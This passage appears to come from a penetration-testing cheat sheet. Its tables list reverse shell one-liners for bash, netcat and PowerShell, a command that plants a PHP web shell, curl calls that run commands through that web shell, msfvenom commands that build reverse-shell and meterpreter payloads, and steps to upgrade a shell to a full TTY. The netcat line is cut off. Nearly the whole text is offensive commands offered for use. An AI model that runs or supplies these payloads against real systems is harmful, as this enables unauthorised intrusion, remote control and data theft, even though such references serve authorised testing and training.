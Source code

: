 #### **Reverse Shell Payloads**

| Type          | Command (Execute on Target)                                                                                |
| ------------- | ---------------------------------------------------------------------------------------------------------- |
| Bash          | `bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`                                                      |
| Netcat        | \`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                                                                       |
| PowerShell    | `powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('<YOUR_IP>',<PORT>);..."` (shortened for brevity) |
| Python        | `python -c 'import pty; pty.spawn("/bin/bash")'`                                                           |
| PHP Web Shell | `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                                          |

#### **Connecting to Shells**

| Command                                 | Description                                      |
| --------------------------------------- | ------------------------------------------------ |
| `nc <TARGET_IP> <PORT>`                 | Connect to a bind shell listening on the target. |
| `curl http://<TARGET>/shell.php?cmd=id` | Execute a command using an uploaded web shell.   |

***

### MSFvenom Payload Generation

| Platform  | Command                                                                                      |
| --------- | -------------------------------------------------------------------------------------------- |
| Linux     | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`         |
| Windows   | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe` |
| Web (PHP) | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`         |
| Web (WAR) | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`          |

***

## Phase 3: Post-Exploitation & Privilege Escalation

Actions taken after gaining initial access to escalate privileges and gather more information.

***

### Shell Stabilisation & TTY Upgrade

| Step          | Command                                           | Description                                                                               |
| ------------- | ------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| 1. Spawn TTY  | `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Use Python to get a better shell. `script /dev/null -c bash` is an alternative.           |
| 2. Background | `Ctrl+Z`                                          | Background the current shell session.                                                     |
| 3. Set Term   | `stty raw -echo; fg`                              | On your attacker machine, set terminal to raw mode, then foreground the shell. Hit enter. |
| 4. Set Vars   | `export TERM=xterm-256color; export SHELL=bash`   | In the target shell, set environment variables for a full-featured terminal.              |
